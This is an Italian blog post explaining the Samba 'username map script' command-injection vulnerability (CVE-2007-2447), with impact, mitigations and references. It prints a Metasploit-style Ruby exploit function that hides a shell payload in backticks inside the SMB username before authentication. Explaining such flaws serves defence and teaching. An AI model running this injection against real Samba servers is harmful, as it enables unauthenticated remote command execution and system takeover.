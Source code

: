 ```yaml
---
layout: post
title: 'usermap_script.rb' 
date: 2024-09-08
categories: [security, exploits]
---
```


# Sfruttamento della Vulnerabilità in Samba: Esecuzione di Comandi tramite "username map script"

## Introduzione
L'exploit che andremo ad analizzare riguarda una vulnerabilità presente nelle versioni di Samba da 3.0.20 a 3.0.25rc3, quando è attiva l'opzione di configurazione non predefinita "username map script". Questa vulnerabilità consente l'esecuzione di comandi arbitrari attraverso l'inserimento di meta caratteri shell all'interno del nome utente.

## Dettagli dell'exploit
La vulnerabilità si manifesta quando un attaccante inserisce dei meta caratteri shell all'interno del nome utente che verrà poi mappato dallo "username map script". L'interprete di comandi (shell) eseguirà il comando arbitrario inserito dall'attaccante. Da notare che non è necessaria l'autenticazione per sfruttare questa vulnerabilità, in quanto l'opzione "username map script" viene utilizzata per mappare i nomi utente prima dell'autenticazione.

## Esempio di Payload (Ruby)
```ruby
def exploit
  vprint_status('Use Rex client (SMB1 only) since this module is not compatible with RubySMB client')
  connect(versions: [1])

  username = "/=`nohup " + payload.encoded + "`"
  begin
    simple.client.negotiate(false)
    simple.client.session_setup_no_ntlmssp(username, rand_text(16), datastore['SMBDomain'], false)
  rescue ::Timeout::Error, XCEPT::LoginError
    # non fa nulla, o ha funzionato o non ha funzionato ;)
  end

  handler
end
```
## Conversione in Python del Payload
```Python
# Al momento non disponibile.
```

## Impatto dell'exploit
Questo exploit può portare all'esecuzione di comandi arbitrari da parte di un attaccante, il che potrebbe portare all'accesso non autorizzato al sistema, furto di dati sensibili, o addirittura al controllo totale del sistema.

## Mitigazioni e soluzioni
Per mitigare questa vulnerabilità è consigliabile disabilitare l'opzione di configurazione "username map script" se non strettamente necessario. In caso contrario, si dovrebbe aggiornare Samba alla versione più recente, in cui la vulnerabilità è stata risolta.

## Riferimenti
* CVE: 2007-2447
* OSVDB: 34700
* BID: 23972
* URL: http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534
* URL: http://samba.org/samba/security/CVE-2007-2447.html

## Conclusione
Dato l'alto rischio associato a questa vulnerabilità, è altamente raccomandato aggiornare il software a una versione sicura o disabilitare l'opzione di configurazione vulnerabile. Ricordiamo che mantenere i software aggiornati e seguire le best practice di sicurezza è fondamentale per proteggere i sistemi da possibili attacchi.
